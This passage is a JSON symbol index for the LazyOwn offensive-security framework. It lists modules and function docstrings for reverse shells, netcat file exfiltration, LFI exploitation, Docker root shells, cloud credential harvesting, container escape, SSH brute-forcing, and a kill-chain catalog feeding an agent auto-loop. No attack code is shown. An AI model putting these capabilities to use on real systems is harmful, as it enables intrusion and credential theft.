context-chain summarization: keep the newest section verbatim, compress older question/answer pairs into a digest, and mark compressed regions with an explicit prefix so downstream readers know they are reading a summary. Budgets are characters (cheap, dependency-free) instead of tokens.  Stdlib only. An optional ``complete`` callable upgrades truncation digests into model-written ones; without it the summarizer still bounds context.", "id": "modules/lazy_summarizer.py", "kind": "module", "label": "lazy_summarizer.py", "language": "py", "sha256": "1475f40d5c40dc27", "symbol_count": 5, "symbols": [{"doc": "Extract printable text from an activity record.", "kind": "function", "line": 26, "name": "_text_of", "signature": "def _text_of(record)"}, {"doc": "Return True when context exceeds the usable budget.\n\nArgs:\n    used_chars: Current context size in characters.\n    budget_chars: Total context budget in characters.\n\nReturns:\n    True when the usable share (budget minus reserve) is exceeded.", "kind": "function", "line": 35, "name": "should_compact", "signature": "def should_compact(used_chars, budget_chars)"}, {"doc": "Bound a record chain to budget, digesting the oldest pairs.\n\nThe newest section (up to ``MAX_LAST_SECTION_CHARS``) is preserved\nverbatim. Older records collapse into digest records prefixed with\n:data:`LAZY_DIGEST_PREFIX`, keeping at most ``MAX_QA_SECTIONS``\nsections and ``MAX_QA_CHARS`` characters of history.\n\nArgs:\n    records: Activity records with worker/kind/text keys.\n    budget_chars: Total character budget for the returned chain.\n    complete: Optional model callable turning a truncation excerpt\n        into a denser digest. Failures fall back to truncation.\n\nReturns:\n    Bounded record list, oldest first, digests marked by prefix.", "kind": "function", "line": 50, "name": "summarize_chain", "signature": "def summarize_chain(records, budget_chars, complete)"}, {"doc": "Compress older records into one dense digest string.", "kind": "function", "line": 100, "name": "_digest", "signature": "def _digest(older, complete)"}, {"doc": "Keep the newest records fitting into budget characters.", "kind": "function", "line": 126, "name": "_truncate_records", "signature": "def _truncate_records(records, budget)"}]}, {"doc": "Nombre del script: lazyatack.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. LazyAtack Licencia: GPL v3   Banner", "id": "modules/lazyatack.sh", "kind": "module", "label": "lazyatack.sh", "language": "sh", "sha256": "74689d2047ddb3db", "symbol_count": 30, "symbols": [{"doc": "Función para mostrar ayuda", "kind": "function", "line": 21, "name": "mostrar_ayuda"}, {"doc": "Función para validar una dirección IP", "kind": "function", "line": 33, "name": "validar_ip"}, {"doc": "Función para validar URL", "kind": "function", "line": 49, "name": "validar_url"}, {"doc": "Función para descargar y extraer SecLists", "kind": "function", "line": 107, "name": "descargar_seclists"}, {"doc": "Función para ejecutar escaneo de puertos con nmap", "kind": "function", "line": 115, "name": "escanear_puertos"}, {"doc": "Función para escanear puertos específicos", "kind": "function", "line": 121, "name": "escanear_puertos_especificos"}, {"doc": "Función para enumerar servicios HTTP", "kind": "function", "line": 127, "name": "enumerar_http"}, {"doc": "Función para iniciar servidor HTTP con Python", "kind": "function", "line": 133, "name": "iniciar_servidor_http"}, {"doc": "Función para configurar netcat", "kind": "function", "line": 139, "name": "configurar_netcat"}, {"doc": "Función para enviar archivo mediante bash a netcat", "kind": "function", "line": 145, "name": "enviar_archivo_netcat"}, {"doc": "Función para verificar conectividad con ping y tcpdump", "kind": "function", "line": 151, "name": "verificar_conectividad"}, {"doc": "Función para verificar conectividad con curl", "kind": "function", "line": 158, "name": "verificar_curl"}, {"doc": "Función para configurar una shell reversa", "kind": "function", "line": 165, "name": "configurar_shell_reversa"}, {"doc": "Función para escuchar shell con netcat", "kind": "function", "line": 171, "name": "escuchar_shell"}, {"doc": "Función para monitorear procesos", "kind": "function", "line": 177, "name": "monitorear_procesos"}, {"doc": "Función para ejecutar wfuzz", "kind": "function", "line": 188, "name": "ejecutar_wfuzz"}, {"doc": "Función para comprobar permisos sudo", "kind": "function", "line": 194, "name": "comprobar_sudo"}, {"doc": "Función para explotar LFI", "kind": "function", "line": 200, "name": "explotar_lfi"}, {"doc": "Función para configurar TTY", "kind": "function", "line": 206, "name": "configurar_tty"}, {"doc": "Función para eliminar archivos de forma segura", "kind": "function", "line": 217, "name": "eliminar_archivos"}, {"doc": "Función para obtener root shell mediante Docker", "kind": "function", "line": 223, "name": "obtener_root_shell"}, {"doc": "Función para enumerar archivos con SUID", "kind": "function", "line": 230, "name": "enumerar_suid"}, {"doc": "Función para listar timers de systemd", "kind": "function", "line": 236, "name": "listar_timers"}, {"doc": "Función para comprobar rutas de comandos", "kind": "function", "line": 242, "name": "comprobar_rutas"}, {"doc": "Función para abusar de tar", "kind": "function", "line": 248, "name": "abusar_tar"}, {"doc": "Función para enumerar puertos abiertos", "kind": "function", "line": 254, "name": "enumerar_puertos"}, {"doc": "Función para eliminar contenedores Docker", "kind": "function", "line": 260, "name": "eliminar_contenedores_docker"}, {"doc": "Función para escanear red", "kind": "function", "line": 266, "name": "escanear_red"}, {"doc": "Función para mostrar menú en modo servidor", "kind": "function", "line": 272, "name": "menu_servidor"}, {"doc": "Función para mostrar menú en modo cliente", "kind": "function", "line": 307, "name": "menu_cliente"}]}, {"doc": "Función para manejar el interruptor de señal Ctrl+C", "id": "modules/lazybrutesshuserenum.sh", "kind": "module", "label": "lazybrutesshuserenum.sh", "language": "sh", "sha256": "1f38ac07e755d57f", "symbol_count": 0, "symbols": []}, {"doc": "Lista de repositorios (nombre y URL)", "id": "modules/lazyclonewars.sh", "kind": "module", "label": "lazyclonewars.sh", "language": "sh", "sha256": "042f8c4773143aa8", "symbol_count": 0, "symbols": []}, {"doc": "Cloud-native attack module for AWS, Azure, and GCP.  Provides enumeration, misconfiguration detection, credential harvesting, and privilege escalation techniques for the three major cloud providers. All operations are read-only by default — destructive flags are explicit.", "id": "modules/lazycloud.py", "kind": "module", "label": "lazycloud.py", "language": "py", "sha256": "5c646abb20d404c0", "symbol_count": 26, "symbols": [{"doc": "A discovered cloud resource.", "kind": "class", "line": 87, "name": "CloudResource", "signature": "class CloudResource"}, {"doc": "A security finding for a cloud resource.", "kind": "class", "line": 98, "name": "CloudFinding", "signature": "class CloudFinding"}, {"doc": "Harvest credentials and configuration from cloud instance metadata.", "kind": "class", "line": 108, "name": "CloudMetadataHarvester", "signature": "class CloudMetadataHarvester"}, {"doc": "Enumerate cloud storage buckets for misconfigurations.", "kind": "class", "line": 248, "name": "CloudBucketEnumerator", "signature": "class CloudBucketEnumerator"}, {"doc": "Enumerate IAM roles, users, and policies across cloud providers.", "kind": "class", "line": 342, "name": "CloudIAMEnumerator", "signature": "class CloudIAMEnumerator"}, {"doc": "End-to-end cloud security scanner combining all three providers.", "kind": "class", "line": 390, "name": "CloudScanner", "signature": "class CloudScanner"}, {"kind": "method", "line": 111, "name": "__init__", "signature": "def __init__(self, timeout)"}, {"kind": "method", "line": 116, "name": "session", "signature": "def session(self)"}, {"kind": "method", "line": 122, "name": "_get", "signature": "def _get(self, url, headers)"}, {"doc": "Harvest AWS EC2 instance metadata (IMDSv2 capable).", "kind": "method", "line": 139, "name": "harvest_aws", "signature": "def harvest_aws(self)"}, {"doc": "Harvest Azure instance metadata.", "kind": "method", "line": 184, "name": "harvest_azure", "signature": "def harvest_azure(self)"}, {"doc": "Harvest GCP instance metadata.", "kind": "method", "line": 208, "name": "harvest_gcp", "signature": "def harvest_gcp(self)"}, {"doc": "Try all three cloud providers sequentially.", "kind": "method", "line": 231, "name": "harvest_all", "signature": "def harvest_all(self)"}, {"kind": "method", "line": 251, "name": "__init__", "signature": "def __init__(self, timeout)"}, {"kind": "method", "line": 256, "name": "session", "signature": "def session(self)"}, {"kind": "method", "line": 262, "name": "_check_url", "signature": "def _check_url(self, url)"}, {"doc": "Enumerate S3 buckets derived from a prefix.", "kind": "method", "line": 278, "name": "enumerate_s3", "signature": "def enumerate_s3(self, prefix, buckets)"}, {"doc": "Enumerate Azure Blob Storage accounts.", "kind": "method", "line": 303, "name": "enumerate_azure_storage", "signature": "def enumerate_azure_storage(self, prefix, accounts)"}, {"doc": "Enumerate GCP Storage buckets.", "kind": "method", "line": 321, "name": "enumerate_gcp_storage", "signature": "def enumerate_gcp_storage(self, prefix, buckets)"}, {"doc": "Enumerate AWS IAM (requires valid credentials).", "kind": "method", "line": 345, "name": "enumerate_aws_iam", "signature": "def enumerate_aws_iam(self, access_key, secret_key, session_token)"}, {"kind": "method", "line": 393, "name": "__init__", "signature": "def __init__(self, target_domain, timeout)"}, {"doc": "Perform a comprehensive cloud security scan.\n\nArgs:\n    target_prefix: Company name or prefix for bucket enumeration.\n    sessions_dir: Directory to write results.\n\nReturns:\n    Aggregated scan results.", "kind": "method", "line": 400, "name": "full_scan", "signature": "def full_scan(self, target_prefix, sessions_dir)"}, {"doc": "Fast metadata-only harvest (no bucket enumeration).", "kind": "method", "line": 456, "name": "quick_metadata", "signature": "def quick_metadata(self)"}, {"doc": "Fast S3-only bucket check.", "kind": "method", "line": 460, "name": "quick_buckets", "signature": "def quick_buckets(self, prefix)"}, {"kind": "function", "line": 361, "name": "_aws_sig", "signature": "def _aws_sig(key, msg)"}, {"kind": "function", "line": 364, "name": "_sign", "signature": "def _sign(key, msg)"}]}, {"doc": "Nombre del script: lazycurl.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. lazycurl Licencia: GPL v3  Banner", "id": "modules/lazycurl.sh", "kind": "module", "label": "lazycurl.sh", "language": "sh", "sha256": "fb9173fa33d4f463", "symbol_count": 3, "symbols": [{"kind": "function", "line": 23, "name": "ctrl_c"}, {"doc": "Función para mostrar la ayuda", "kind": "function", "line": 29, "name": "show_help"}, {"doc": "Función para ejecutar el comando CURL", "kind": "function", "line": 52, "name": "execute_curl"}]}, {"id": "modules/lazyencoder_decoder.py", "kind": "module", "label": "lazyencoder_decoder.py", "language": "py", "sha256": "e03efdb8c3b6193a", "symbol_count": 10, "symbols": [{"kind": "function", "line": 4, "name": "base64_encode", "signature": "def base64_encode(data)"}, {"kind": "function", "line": 8, "name": "base64_decode", "signature": "def base64_decode(data)"}, {"kind": "function", "line": 13, "name": "caesar_cipher", "signature": "def caesar_cipher(text, shift)"}, {"kind": "function", "line": 27, "name": "caesar_decipher", "signature": "def caesar_decipher(text, shift)"}, {"kind": "function", "line": 31, "name": "key_substitution", "signature": "def key_substitution(text, key)"}, {"kind": "function", "line": 47, "name": "key_substitution_reverse", "signature": "def key_substitution_reverse(text, key)"}, {"kind": "function", "line": 63, "name": "encode", "signature": "def encode(data, shift, key)"}, {"kind": "function", "line": 75, "name": "encode_string", "signature": "def encode_string(data, shift, key)"}, {"kind": "function", "line": 82, "name": "decode", "signature": "def decode(data, shift, key)"}, {"kind": "function", "line": 94, "name": "decode_string", "signature": "def decode_string(data, shift, key)"}]}, {"id": "modules/lazyevilwimrm.sh", "kind": "module", "label": "lazyevilwimrm.sh", "language": "sh", "sha256": "78092b8629748218", "symbol_count": 1, "symbols": [{"doc": "Función para ejecutar evil-winrm y verificar la salida", "kind": "function", "line": 14, "name": "execute_evil_winrm"}]}, {"doc": "Nombre del script: lazygath.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. Lazygathering Licencia: GPL v3   Verifica si se está ejecutando como root", "id": "modules/lazygat.sh", "kind": "module", "label": "lazygat.sh", "language": "sh", "sha256": "d2c759d7c7126a9b", "symbol_count": 0, "symbols": []}, {"doc": "Container and Kubernetes attack module.  Provides enumeration, exploitation, privilege escalation, and escape techniques for containerized environments and Kubernetes clusters.  Supports Docker, containerd, CRI-O runtimes and Kubernetes API interaction.", "id": "modules/lazyk8s.py", "kind": "module", "label": "lazyk8s.py", "language": "py", "sha256": "3c727daf82406baa", "symbol_count": 32, "symbols": [{"doc": "A discovered container or cluster resource.", "kind": "class", "line": 20, "name": "ContainerResource", "signature": "class ContainerResource"}, {"doc": "A security finding in a container environment.", "kind": "class", "line": 30, "name": "ContainerFinding", "signature": "class ContainerFinding"}, {"doc": "Enumerate Docker host and containers.", "kind": "class", "line": 41, "name": "DockerEnumerator", "signature": "class DockerEnumerator"}, {"doc": "Enumerate Kubernetes clusters via API or kubeconfig.", "kind": "class", "line": 264, "name": "K8sEnumerator", "signature": "class K8sEnumerator"}, {"doc": "Collection of container escape techniques and detection.", "kind": "class", "line": 624, "name": "ContainerEscapeTechniques", "signature": "class ContainerEscapeTechniques"}, {"doc": "Auto-detect container runtime and available escape primitives.\n\nSupports: Docker, containerd, CRI-O, Podman, LXC/LXD, systemd-nspawn.", "kind": "class", "line": 759, "name": "ContainerRuntimeDetector", "signature": "class ContainerRuntimeDetector"}, {"kind": "method", "line": 44, "name": "__init__", "signature": "def __init__(self, socket_path)"}, {"doc": "Check if the Docker socket is readable/writable.", "kind": "method", "line": 47, "name": "is_socket_accessible", "signature": "def is_socket_accessible(self)"}, {"doc": "Make a raw HTTP request to the Docker Unix socket.", "kind": "method", "line": 51, "name": "_docker_api", "signature": "def _docker_api(self, endpoint)"}, {"doc": "List all containers with extended information.", "kind": "method", "line": 70, "name": "list_containers", "signature": "def list_containers(self)"}, {"doc": "List all Docker images.", "kind": "method", "line": 94, "name": "list_images", "signature": "def list_images(self)"}, {"doc": "Get detailed configuration of a container (privileged, mounts, capabilities).", "kind": "method", "line": 118, "name": "inspect_container", "signature": "def inspect_container(self, container_id)"}, {"doc": "Find containers running with --privileged flag.", "kind": "method", "line": 137, "name": "check_privileged_containers", "signature": "def check_privileged_containers(self)"}, {"doc": "Find containers with sensitive host path mounts.", "kind": "method", "line": 162, "name": "check_sensitive_mounts", "signature": "def check_sensitive_mounts(self)"}, {"doc": "Find containers with the Docker socket mounted (escape vector).", "kind": "method", "line": 196, "name": "check_docker_socket_mount", "signature": "def check_docker_socket_mount(self)"}, {"doc": "Find containers with dangerous Linux capabilities.", "kind": "method", "line": 217, "name": "check_capabilities", "signature": "def check_capabilities(self)"}, {"doc": "Execute all Docker security checks and return aggregated results.", "kind": "method", "line": 250, "name": "full_check", "signature": "def full_check(self)"}, {"kind": "method", "line": 267, "name": "__init__", "signature": "def __init__(self, kubeconfig, token, api_server)"}, {"kind": "method", "line": 274, "name": "_load_kubeconfig", "signature": "def _load_kubeconfig(self)"}, {"kind": "method", "line": 285, "name": "_get_k8s_api", "signature": "def _get_k8s_api(self, path)"}, {"doc": "List pods in all namespaces or a specific namespace.", "kind": "method", "line": 366, "name": "list_pods", "signature": "def list_pods(self, namespace)"}, {"doc": "List all namespaces.", "kind": "method", "line": 390, "name": "list_namespaces", "signature": "def list_namespaces(self)"}, {"doc": "List secrets (without decoding values by default).", "kind": "method", "line": 410, "name": "list_secrets", "signature": "def list_secrets(self, namespace)"}, {"doc": "List service accounts and their attached roles.", "kind": "method", "line": 462, "name": "list_service_accounts", "signature": "def list_service_accounts(self, namespace)"}, {"doc": "Check current user's RBAC permissions.", "kind": "method", "line": 498, "name": "check_rbac", "signature": "def check_rbac(self)"}, {"doc": "Check for pod escape vectors in the current pod.", "kind": "method", "line": 530, "name": "check_pod_escape_vectors", "signature": "def check_pod_escape_vectors(self)"}, {"doc": "Execute all Kubernetes security checks.", "kind": "method", "line": 582, "name": "full_check", "signature": "def full_check(self, sessions_dir)"}, {"doc": "Detect if running inside a container and identify escape opportunities.", "kind": "method", "line": 684, "name": "detect_current_environment", "signature": "def detect_current_environment()"}, {"doc": "Detect container runtime from multiple indicators.\n\nReturns:\n    Dict with runtime info including name, confidence, and indicators.", "kind": "method", "line": 803, "name": "detect_runtime", "signature": "def detect_runtime()"}, {"doc": "Detect dangerous mounts in the current container.\n\nReturns:\n    Dict with categories of dangerous mounts found.", "kind": "method", "line": 874, "name": "detect_mounts", "signature": "def detect_mounts()"}, {"doc": "Detect dangerous Linux capabilities in the current container.\n\nReturns:\n    List of dangerous capabilities found.", "kind": "method", "line": 921, "name": "detect_dangerous_capabilities", "signature": "def detect_dangerous_capabilities()"}, {"doc": "Run comprehensive container escape auto-detection.\n\nCombines runtime detection, environment detection, mount analysis,\nand capability enumeration into a single report.\n\nReturns:\n    Comprehensive assessment dict.", "kind": "method", "line": 992, "name": "auto_detect_all", "signature": "def auto_detect_all()"}]}, {"doc": "Verificar si se proporcionó un argumento para el host remoto", "id": "modules/lazylynis.sh", "kind": "module", "label": "lazylynis.sh", "language": "sh", "sha256": "34109331f0bcc7dc", "symbol_count": 1, "symbols": [{"doc": "Función para verificar y relanzar con sudo si es necesario", "kind": "function", "line": 32, "name": "check_sudo"}]}, {"doc": "Nombre del script: lazymasscan.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación lazymasscan. Licencia: GPL v3", "id": "modules/lazymasscan.sh", "kind": "module", "label": "lazymasscan.sh", "language": "sh", "sha256": "3ea499fe1f3df756", "symbol_count": 4, "symbols": [{"kind": "function", "line": 74, "name": "extract_ports_info"}, {"kind": "function", "line": 94, "name": "run_masscan_script"}, {"kind": "function", "line": 117, "name": "print_row"}, {"kind": "function", "line": 20, "name": "ctrl_c"}]}, {"doc": "Verificar si se pasaron los argumentos de IP y puerto", "id": "modules/lazymobilerevshell.sh", "kind": "module", "label": "lazymobilerevshell.sh", "language": "sh", "sha256": "20236b079c5ea571", "symbol_count": 0, "symbols": []}, {"doc": "Nombre del script: lazynmap.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. lazynmap Licencia: GPL v3", "id": "modules/lazynmap.sh", "kind": "module", "label": "lazynmap.sh", "language": "sh", "sha256": "2a889c00c8407f67", "symbol_count": 8, "symbols": [{"kind": "function", "line": 29, "name": "cleanup"}, {"doc": "Best-effort ownership fixup: scans run under sudo leave root-owned files behind, and only root can chown those. Try passwordless sudo first, fall back to a plain call, and stay silent when neither is permitted (non-fatal: the scan artefacts themselves are already written at this point).", "kind": "function", "line": 74, "name": "fix_sessions_owner"}, {"kind": "function", "line": 129, "name": "nmaptest"}, {"kind": "function", "line": 149, "name": "discover_network"}, {"kind": "function", "line": 818, "name": "extract_ports_info"}, {"kind": "function", "line": 844, "name": "run_nmap_script"}, {"kind": "function", "line": 877, "name": "print_row"}, {"kind": "function", "line": 38, "name": "ctrl_c"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Lazy Burp-Like Fuzzer con Proxy y Repeater  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/lazyown_bprfuzzer.py", "kind": "module", "label": "lazyown_bprfuzzer.py", "language": "py", "sha256": "73524c8901164294", "symbol_count": 15, "symbols": [{"doc": "Return a :class:`SecurityConfig` from ``payload.json`` when present.\n\nA missing or unreadable payload file falls back to the\nconservative defaults so the fuzzer can be invoked even before\nthe framework wizard has produced a configuration.", "kind": "function", "line": 45, "name": "_load_security_config", "signature": "def _load_security_config()"}, {"kind": "function", "line": 93, "name": "load_headers_from_file", "signature": "def load_headers_from_file(file_path)"}, {"kind": "function", "line": 99, "name": "load_data_from_file", "signature": "def load_data_from_file(file_path)"}, {"kind": "function", "line": 105, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "class", "line": 114, "name": "ProxyHandler", "signature": "class ProxyHandler(BaseHTTPRequestHandler)"}, {"kind": "function", "line": 162, "name": "run_proxy", "signature": "def run_proxy(port)"}, {"kind": "function", "line": 169, "name": "edit_file_with_nano", "signature": "def edit_file_with_nano(content)"}, {"doc": "Envía una solicitud HTTP y devuelve la respuesta.", "kind": "function", "line": 179, "name": "send_request", "signature": "def send_request(url, method, headers, params, data, json_data, proxies, hide_code)"}, {"doc": "Funcionalidad de Repeater que permite enviar solicitudes múltiples veces con posibilidad de modificación.", "kind": "function", "line": 203, "name": "repeater", "signature": "def repeater(url, method, headers, params, data, json_data, proxies, hide_code)"}, {"doc": "Funcionalidad de fuzzing que reemplaza LAZYFUZZ con palabras de una wordlist.", "kind": "function", "line": 233, "name": "lazyfuzz", "signature": "def lazyfuzz(url, method, headers, params, data, json_data, proxies, wordlist_path, hide_code)"}, {"doc": "Parsear los argumentos de la línea de comandos.", "kind": "function", "line": 278, "name": "parse_arguments", "signature": "def parse_arguments()"}, {"kind": "function", "line": 302, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 115, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 118, "name": "do_POST", "signature": "def do_POST(self)"}, {"kind": "method", "line": 121, "name": "_handle_request", "signature": "def _handle_request(self, method)"}]}, {"doc": "modules/lazyown_bridge.py ========================== Full-coverage structured catalog of all LazyOwn do_ commands mapped to attack phases, MITRE ATT&CK tactics, and discovered service types.  Integrates with the MCP auto_loop to provide phase-aware, service-matched command selection without modifying lazyown.py.  Design (SOLID) -------------- - Single Responsibility : CommandCatalog owns only the command registry; PhaseSelector owns only phase-to-command resolution; ServiceMatcher owns only service-type detection; ContextEnricher owns only arg substitution. - Open/Closed           : add new phases/tactics via CatalogEntry, no edits needed. - Liskov                : all Selector subclasses honour Optional[CatalogEntry] contract. - Interface Segregation : BridgeDispatcher exposes only what auto_loop needs. - Dependency Inversion  : BridgeDispatcher depends on AbstractSelector abstraction.  Phases ------ recon       -> 01. Reconnaissance enum        -> 02. Scanning & Enumeration exploit     -> 03. Exploitation postexp     -> 04. Post-Exploitation persist     -> 05. Persistence privesc     -> 06. Privilege Escalation cred        -> 07. Credential Access lateral     -> 08. Lateral Movement", "id": "modules/lazyown_bridge.py", "kind": "module", "label": "lazyown_bridge.py", "language": "py", "sha256": "fef7e7c5b976927d", "symbol_count": 43, "symbols": [{"doc": "A single LazyOwn command with metadata for intelligent selection.", "kind": "class", "line": 48, "name": "CatalogEntry", "signature": "class CatalogEntry"}, {"doc": "Full registry of CatalogEntry objects for all LazyOwn phases.", "kind": "class", "line": 115, "name": "CommandCatalog", "signature": "class CommandCatalog"}, {"kind": "class", "line": 3984, "name": "AbstractSelector", "signature": "class AbstractSelector(ABC)"}, {"doc": "Priority + service matching selector with credential gate.", "kind": "class", "line": 4002, "name": "ServiceAwareSelector", "signature": "class ServiceAwareSelector(AbstractSelector)"}, {"doc": "Prefer MITRE-matching commands; fall back to ServiceAwareSelector.", "kind": "class", "line": 4042, "name": "MitreAlignedSelector", "signature": "class MitreAlignedSelector(AbstractSelector)"}, {"doc": "Select commands by tag (e.g. 'kerberos', 'web', 'impacket').", "kind": "class", "line": 4071, "name": "TagSelector", "signature": "class TagSelector(AbstractSelector)"}, {"doc": "Builds final command strings from CatalogEntry + WorldModel facts.", "kind": "class", "line": 4103, "name": "ContextEnricher", "signature": "class ContextEnricher"}, {"doc": "Maps WorldModel EngagementPhase values to bridge phase strings.\n\nDelegates core engagement-to-CLI mapping to :class:`modules.killchain.KillChain`\nas the single source of truth for canonical phases. The bridge maintains its\nown extended namespace (postexp, cred, persist, c2) for tool categorization\nthat extends beyond the canonical 8-phase kill chain.", "kind": "class", "line": 4153, "name": "PhaseMapper", "signature": "class PhaseMapper"}, {"doc": "Public facade used by the MCP auto_loop and MCP tool handlers.\nCombines catalog + selector + enricher into a single suggest() call.", "kind": "class", "line": 4233, "name": "BridgeDispatcher", "signature": "class BridgeDispatcher"}, {"kind": "function", "line": 4409, "name": "get_dispatcher", "signature": "def get_dispatcher()"}, {"doc": "Return 'command [args]' with known values substituted.", "kind": "method", "line": 63, "name": "build_command", "signature": "def build_command(self, target, port, user, password, domain, url, wordlist, lhost, lport)"}, {"kind": "method", "line": 94, "name": "matches_service", "signature": "def matches_service(self, services)"}, {"kind": "method", "line": 104, "name": "matches_os", "signature": "def matches_os(self, os_hint)"}, {"kind": "method", "line": 118, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 122, "name": "_populate", "signature": "def _populate(self)"}, {"kind": "method", "line": 3946, "name": "by_phase", "signature": "def by_phase(self, phase)"}, {"kind": "method", "line": 3952, "name": "by_mitre", "signature": "def by_mitre(self, technique_id)"}, {"kind": "method", "line": 3956, "name": "by_service", "signature": "def by_service(self, service_name)"}, {"kind": "method", "line": 3960, "name": "by_tag", "signature": "def by_tag(self, tag)"}, {"kind": "method", "line": 3963, "name": "by_os", "signature": "def by_os(self, os_hint)"}, {"kind": "method", "line": 3966, "name": "all_phases", "signature": "def all_phases(self)"}, {"kind": "method", "line": 3969, "name": "get", "signature": "def get(self, command)"}, {"kind": "method", "line": 3975, "name": "count", "signature": "def count(self)"}, {"kind": "method", "line": 3986, "name": "select", "signature": "def select(self, catalog, phase, services, has_creds, excluded, os_hint)"}, {"kind": "method", "line": 4005, "name": "select", "signature": "def select(self, catalog, phase, services, has_creds, excluded, os_hint)"}, {"kind": "method", "line": 4045, "name": "__init__", "signature": "def __init__(self, technique_id)"}, {"kind": "method", "line": 4049, "name": "select", "signature": "def select(self, catalog, phase, services, has_creds, excluded, os_hint)"}, {"kind": "method", "line": 4074, "name": "__init__", "signature": "def __init__(self, tag)"}, {"kind": "method", "line": 4078, "name": "select", "signature": "def select(self, catalog, phase, services, has_creds, excluded, os_hint)"}, {"kind": "method", "line": 4106, "name": "enrich", "signature": "def enrich(self, entry, target, world_snapshot)"}, {"doc": "Return the canonical 8-phase order from KillChain (single source of truth).", "kind": "method", "line": 4204, "name": "canonical_kill_chain_order", "signature": "def canonical_kill_chain_order()"}, {"kind": "method", "line": 4210, "name": "to_bridge_phase", "signature": "def to_bridge_phase(self, wm_phase)"}, {"doc": "Ordered list of bridge phases following the kill chain.", "kind": "method", "line": 4223, "name": "kill_chain_order", "signature": "def kill_chain_order(self)"}, {"kind": "method", "line": 4239, "name": "__init__", "signature": "def __init__(self, catalog, selector, enricher, phase_mapper)"}, {"doc": "Return (command_string, entry) or None.\n\nParameters\n----------\nphase       : WorldModel or bridge phase string (auto-translated)\ntarget      : IP/hostname for arg substitution\nservices    : discovered service strings [\"http:80\", \"smb:445\", ...]\nhas_creds   : credentials known in WorldModel\nexcluded    : command names to skip\nworld_snapshot : WorldModel.snapshot() dict\nmitre_hint  : prefer commands matching this MITRE technique\ntag_hint    : prefer commands with this tag (e.g. \"kerberos\")\nos_hint     : \"linux\", \"windows\", or \"any\"", "kind": "method", "line": 4251, "name": "suggest", "signature": "def suggest(self, phase, target, services, has_creds, excluded, world_snapshot, mitre_hint, tag_hint, os_hint)"}, {"doc": "Return up to `limit` non-excluded suggestions for the phase.", "kind": "method", "line": 4296, "name": "suggest_sequence", "signature": "def suggest_sequence(self, phase, target, services, has_creds, excluded, world_snapshot, limit)"}, {"kind": "method", "line": 4325, "name": "suggest_for_wm_phase", "signature": "def suggest_for_wm_phase(self, wm_phase_value, target, services, has_creds, excluded, world_snapshot)"}, {"kind": "method", "line": 4343, "name": "list_phase", "signature": "def list_phase(self, phase)"}, {"kind": "method", "line": 4347, "name": "all_phases", "signature": "def all_phases(self)"}, {"kind": "method", "line": 4350, "name": "catalog_summary", "signature": "def catalog_summary(self)"}, {"doc": "Return a kill-chain summary restricted to a phase and target OS.\n\nArgs:\n    phase: Optional WorldModel-or-bridge phase identifier. When\n        provided the summary contains only that phase (translated\n        through :class:`PhaseMapper`). When ``None`` every phase\n        in the kill-chain order is included.\n    os_hint: Target OS filter (``\"any\"``, ``\"linux\"``, ``\"windows\"``).\n        Entries are kept when :meth:`CatalogEntry.matches_os`\n        returns ``True``. The value ``\"any\"`` disables the filter.\n\nReturns:\n    Mapping of phase identifier to the ordered list of command\n    names that survived the filters. Empty phases are omitted so\n    agents do not waste tokens on blank sections.", "kind": "method", "line": 4358, "name": "catalog_summary_filtered", "signature": "def catalog_summary_filtered(self, phase, os_hint)"}, {"kind": "method", "line": 4395, "name": "catalog_count", "signature": "def catalog_count(self)"}, {"kind": "method", "line": 4398, "name": "phase_kill_chain", "signature": "def phase_kill_chain(self)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Extractor de metadata inspirado en la FOCA  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/lazyown_metaextract0r.py", "kind": "module", "label": "lazyown_metaextract0r.py", "language": "py", "sha256": "e2295d9601d88541", "symbol_count": 9, "symbols": [{"kind": "function", "line": 42, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 51, "name": "extract_pdf_metadata", "signature": "def extract_pdf_metadata(file_path)"}, {"kind": "function", "line": 62, "name": "extract_docx_metadata", "signature": "def 